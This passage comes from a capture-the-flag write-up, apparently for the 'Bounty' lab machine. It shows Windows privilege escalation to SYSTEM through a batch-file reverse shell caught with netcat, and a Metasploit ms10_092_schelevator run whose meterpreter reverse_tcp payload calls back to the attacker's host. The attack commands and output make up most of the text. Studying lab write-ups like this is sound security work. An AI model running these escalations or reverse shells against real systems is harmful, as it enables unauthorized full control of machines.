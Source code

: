     [+] Running C:\users\merlin\appdata\local\temp\rev.bat sessionId 1
    [+] CreateProcessWithTokenW OK
    Auth result: 0
    Return code: 0
    Last error: 0
    
    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49190
    Windows PowerShell running as user BOUNTY$ on BOUNTY
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32>whoami
    nt authority\system
    

### Escalation Method 2: Kernel Exploits - Metasploit

Unfortunately, I didn’t have a good implementation of one of these kernel
exploits that fits my current situation outside of Metasploit. There are lots
of pre-compiled exes on github, but they typically open a new cmd window,
which isn’t helpful here. And, since I got a Meterpreter shell already for
enumeration, I’ll make good use of it:

    
    
    msf exploit(windows/local/ms10_092_schelevator) > options
    
    Module options (exploit/windows/local/ms10_092_schelevator):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       CMD                        no        Command to execute instead of a payload
       SESSION   1                yes       The session to run this module on.
       TASKNAME                   no        A name for the created task (default random)
    
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows Vista, 7, and 2008
    
    
    msf exploit(windows/local/ms10_092_schelevator) > run
    
    [*] Started reverse TCP handler on 10.10.14.5:443
    [*] Preparing payload at C:\Windows\TEMP\qqTMYhyeIn.exe
    [*] Creating task: FnB0882rp0ZAqjr
    [*] SUCCESS: The scheduled task "FnB0882rp0ZAqjr" has successfully been created.
    [*] SCHELEVATOR
    [*] Reading the task file contents from C:\Windows\system32\tasks\FnB0882rp0ZAqjr...
    [*] Original CRC32: 0xd3070e6a
    [*] Final CRC32: 0xd3070e6a
    [*] Writing our modified content back...
    [*] Validating task: FnB0882rp0ZAqjr
    [*]
    [*] Folder: \
    [*] TaskName                                 Next Run Time          Status
    [*] ======================================== ====================== ===============
    [*] FnB0882rp0ZAqjr                          11/1/2018 10:55:00 PM  Ready